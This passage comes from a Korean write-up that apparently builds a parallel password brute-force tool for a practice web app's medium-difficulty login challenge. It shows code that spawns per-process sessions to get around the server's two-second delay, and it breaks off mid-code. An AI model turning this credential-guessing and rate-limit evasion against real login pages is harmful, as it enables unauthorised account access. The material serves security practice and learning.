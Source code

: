 ```python

        if (response.status_code == 200 and 'Welcome to the password protected area' in response.text):
            return password
    return None


## TEST 병렬처리O
if __name__ == '__main__':
    start = int(time.time())
    num_cores = 8
    pool = Pool(num_cores)
    filename = 'tools/passwordlist.txt'
    tasks = read_file(filename)
    results = pool.map(brut_force, tasks)
    end = int(time.time())

    for result in results:
        if result:
            print("password is:",result)
    print(f"걸린시간: {end-start}sec.")

```
처음 툴을 제작할 때 처음 완성이 됬던 github link에 있는 brut force ver 1을 실행을 했을 때 input password들이 약 2초간격으로 출력이 되는것을 확인 할 수 있다. 즉, medium난이도의 brut force에서 sleep(2)라는 http요청의 시간지연을 우회하기 위해 pyhton에서 제공하는 multiprocessing모듈에서 Pool을 이용해 병렬처리를 해주었지만 실패를 했다.

실패의 원인을 분석해보았을 때 함수를 실행할 때에는 병렬 처리가 잘 되었지만 요청을 보내는 부분에서 문제가 있던것이었다. requests.get으로 요청을 보낼 때 아무리 요청을 8개를 보내도 처음 받은 요청으로 인해 2초씩 시간지연이 발생하기 때문이다. 원래라면 요청 8개를 보냈을 때 서로 독립적으로 응답을 받고 2초씩 시간 지연이 생기는 방식으로 되어야 하는데 각 코어의 요청이 독립적으로 요청을 보내고 있지 않기에 이런 문제가 발생한 것이었다.

이것을 해결하기 위해 한개의 로그인상태가 아닌 각각의 세션들을 만들어 요청을 보내기위해 session_set이라는 함수를 만들어 로그인을 할 때 필요한 파라미터인 username과 password, Login은 각각 admin, password, Login으로 입력해주고 user_token은 BeautifulSoup을 이용해 token을 가져와 입력을 하게 해주었다. 그리고 login폼에 post요청으로 login_info와 함께 요청을 보내주면 새로운 세션이 만들어진다. brut force 함수를 실행 할 때 8개의 코어로 나누어 실행하므로써 각각의 새로운 세션이 만들어지고 이를통해 서로 독립적으로 요청이 보내져 한번에 8개의 password값을 입력할 수 있게 되는것이다.

**ver 1.1 code**
```python
'''
brut force 병렬처리 성공
'''

from multiprocessing import Pool
import requests
import bs4

'''
파일을 불러와 tasks라는 변수에 리스트 형식으로 반환

@param 문자열 리스트가 있는 파일위치
@return 문자열 리스트
'''
def read_file(filename):
    tasks = []
    with open(filename, 'r') as file:
        for line in file:
            tasks.append([line.strip()])  # 각 문자열을 리스트로 감싸서 추가
    return tasks


'''
username, password, Login의 값과 Beautifulsoup을 이용해 찾아낸 user_toke으로
새로운 session 찾기

```